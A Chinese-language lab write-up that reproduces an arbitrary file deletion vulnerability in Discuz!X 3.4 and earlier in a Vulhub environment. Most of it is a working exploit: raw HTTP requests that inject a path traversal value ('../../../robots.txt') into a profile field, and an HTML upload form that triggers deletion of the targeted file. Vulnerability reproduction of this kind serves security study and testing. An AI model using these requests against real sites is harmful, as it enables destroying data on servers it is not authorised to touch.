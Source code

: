 # Discuz!X ≤3.4 任意文件删除漏洞

## 漏洞描述

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

## 漏洞影响

```
Discuz!X ≤3.4
```

## 环境搭建

Vulhub执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

启动后，访问`http://your-ip/install/`来安装discuz，只用修改数据库地址为`db`，其他保持默认即可。

![image-20220222131339964](images/202202221313350.png)

## 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![image-20220222131412780](images/202202221314844.png)

注册用户后，在个人设置页面找到自己的formhash：

![image-20220222131618637](images/202202221316746.png)

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: 192.168.174.128
Content-Length: 370
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.174.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW8uA1wbCsmuiargU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.128/home.php?mod=spacecp&ac=profile&op=base
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=dGhyZWVraTo2MjE0NEM0Mzrhe4V-bNxBqV-1RKA7mJS_YQrC9A; ot6_visitedfid=2; ot6_sid=9yWYy0; et56_2132_saltkey=qN7vqIdT; et56_2132_lastvisit=1645503280; et56_2132_sid=Ze005m; et56_2132_seccode=1.526c82122231460dd9; et56_2132_ulastactivity=6467KkrgcKDQNmUlDxKLd592a6DUvLlRSPU4g07eDld2bKtFo3JU; et56_2132_auth=45cdTg%2F0tTayn1c5i6fOd%2F96K8vGKx7SVg9MgaAoLalS102hICOtVzWjuDHbYtyyH8Rqe54O1WS9d%2Fa0s%2FIV; et56_2132_nofavfid=1; et56_2132_onlineusernum=1; et56_2132_noticeTitle=1; et56_2132_lastact=1645507206%09home.php%09misc
Connection: close

------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="formhash"

d32e951d
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="profilesubmit"

true
------WebKitFormBoundaryW8uA1wbCsmuiargU--
```

![image-20220222132220237](images/202202221322360.png)

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![image-20220222132303344](images/202202221323368.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。如果遇到下图这样的情况，需要修改数据包。

![image-20220222143620386](images/202202221436463.png)

Burpsuite抓包，将Refer和Cookie替换为正常上传数据包的值。

```
POST /home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=d32e951d HTTP/1.1
Host: 192.168.174.222
Content-Length: 3685
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.159
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKSoP7vDw487SX9LO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: [替换为http://192.168.174.128/home.php?mod=spacecp]
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: [替换为正常上传的C]
Connection: close
```

此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除。

![image-20220222145130066](images/202202221451120.png)
